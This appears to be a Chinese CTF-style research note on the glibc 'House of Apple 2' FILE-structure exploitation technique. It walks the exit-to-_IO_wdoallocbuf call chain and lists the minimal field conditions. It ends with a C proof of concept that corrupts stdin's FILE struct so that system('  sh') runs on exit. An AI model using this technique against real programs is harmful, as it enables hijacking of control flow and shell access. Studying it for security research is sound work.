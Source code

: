 ```yaml
---
title: houseofapple2
date: 2024-8-19
categories: houseof
tags: 研究记录
---
```

# 前言
houseofapple2应该是我的IO系列引路人了，一直被glibc里面的源码吓得头大，各种条件也是搞得不明不白的，一般只能照抄网上的条件去触发。

现在我的本地设置好了源码调试，又有各种符号表等等，总之我决定啃下houseofapple2，这篇文章暂时先总结houseofapple2的最低触发条件，下次试试把这些条件整合到一起，力求以最小内存大小实现houseofapple2触发
# 调试过程
我们知道houseofapple2的调用链是
```
exit
->__run_exit_handlers
->_IO_cleanup
->_IO_flush_all_lockp
->_IO_OVERFLOW(这个是个宏定义，实际函数名可以看等会的图片)
->_IO_wdoallocbuf
->任意你设定好的可执行地址
```
本文就以沿着这条链子的调试过程作为线索，找到houseofapple2的最低触发条件
### exit->__run_exit_handlers
![exit_call__run_exit_handlers](exit_call__run_exit_handlers.png)
这里没有任何需要满足的条件，从图中右上源码上也可看出
### __run_exit_handlers->IO_cleanup
![exit_handlers_call_io_cleanup](exit_handlers_call_io_cleanup.png)
这里依然没有任何需要满足的条件
### _IO_cleanup->_IO_flush_all_lockp
![io_cleanup_call_io_flush_all_lockp](io_cleanup_call_io_flush_all_lockp.png)
这是不需要满足条件的最后一步，接下来几乎每一层都有特定条件需要满足
### _IO_flush_all_lockp->_IO_OVERFLOW
![io_flush_all_lockp_call_io_overflow](io_flush_all_lockp_call_io_overflow.png)

```    
if  (
        (
            (fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
             || 
            (   _IO_vtable_offset (fp) == 0
             && fp->_mode > 0
             && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
            )
        )
        && _IO_OVERFLOW (fp, EOF) == EOF
    )
```
我们需要进入_IO_OVERFLOW，所以显然我们要满足在` && _IO_OVERFLOW(fp,EOF) == EOF`之前的条件
也就是在`(fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)`与
```
(   _IO_vtable_offset (fp) == 0
    && fp->_mode > 0
    && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
)
```
中选择一个满足，这时候我们为了后面的条件同时满足，只能选择前者。
### _IO_OVERFLOW->_IO_wdoallocbuf
![io_overflow_call_io_wdoallocbuf](io_overflow_call_io_wdoallocbuf.png)
在这张图中可以看到必须不满足`if (f->_flags & _IO_NO_WRITES)`以及满足
```
if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
  {
    if (f->_wide_data->_IO_write_base == 0)
```
才可以进入`_IO_wdoallocbuf(f)`

![flags_macro_define](flags_macro_define.png)
根据查询glibc源码，我们发现`_IO_CURRENTLY_PUTTING`的值为0x800
[roderick](https://bbs.kanxue.com/thread-273832.htm#%E5%88%A9%E7%94%A8_io_wfile_overflow%E5%87%BD%E6%95%B0%E6%8E%A7%E5%88%B6%E7%A8%8B%E5%BA%8F%E6%89%A7%E8%A1%8C%E6%B5%81)发现只要将`_flags`设置为0x68732020，就可以绕过关于flag的各种条件。在这里(0x68732020 & 0x800 = 0)


并且_flags会被当作我们最后执行函数的rdi。比如如果我们决定使用system函数，0x68732020还会被用作system函数的参数，也就是'  sh'。非常的巧妙
### _IO_doallocbuf->任意地址执行
这一步需要把fp->_vtable覆盖成_IO_wfile_jumps，否则会因为如下的检查而利用失败
![validate_vtable](validate_vtable.png)
还需要把fp->_wide_data->_wide_vtable+0x68的位置设置为system或是其他利用地址
# 利用条件
_IO_flush_all_lockp->_IO_OVERFLOW
需要满足`(fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)`
_IO_OVERFLOW->_IO_wdoallocbuf
需要不满足`if (f->_flags & _IO_NO_WRITES)`
以及满足
```
if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
  {
    if (f->_wide_data->_IO_write_base == 0)
```

以及还需要把fp->_vtable覆盖成_IO_wfile_jumps
还需要把fp->_wide_data->_wide_vtable+0x68的位置设置为system或是其他利用地址

总结一下，如果是利用system函数获取shell，需满足如下条件
```
_flags == 0x68732020
fp->_mode == 0
fp->_IO_write_ptr > fp->_IO_write_base
fp->_vtable == _IO_wfile_jumps
fp->_wide_data->_IO_write_base == 0
fp->_wide_data->_wide_vtable+0x68 == &system
```

总结到这一步，发现其实也没想象中那么复杂，很多条件都是0，在内存中有时候本来就是0，根本不需要特别设置。
然后是我写的demo
```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
int main()
{
    long libc_base = &printf - 0x60770;
    long _IO_2_1_stdin_ptr = libc_base + 0x219aa0;

    *(int*)(_IO_2_1_stdin_ptr + 0xc0) = 0;
     // fp->_mode = 0
    *(long*)(_IO_2_1_stdin_ptr + 0x28) = 1;
     // fp->_IO_write_ptr = 1
    *(long*)(_IO_2_1_stdin_ptr + 0x20) = 0;
     // fp->_IO_write_base = 0

    *(int*)(_IO_2_1_stdin_ptr + 0) =0x68732020;
    // fp->_flags = '  sh'

    *(long*)(_IO_2_1_stdin_ptr + 0xd8) = libc_base + 0x2160c0;
    // fp->_vtable = _IO_wfile_jumps
    
    long wide_data = *(long*)(_IO_2_1_stdin_ptr + 0xa0);
    *(long*)(wide_data + 0x18) = 0;
    // fp->_wide_data->_IO_write_base = 0

    long fake_wide_data_vtable = malloc(0x300);
    *(long*)(wide_data + 0xe0) = fake_wide_data_vtable;
    *(long*)(fake_wide_data_vtable + 0x68) = &system;
    // fp->_wide_data->_wide_vtable + 0x68 = &system

    exit(0);
}
```
# 小表格
有时候在查找_IO_FILE_plus以及_wide_data对应的值的时候比较麻烦，就搞了一个小表格
![io_file](io_file.png)
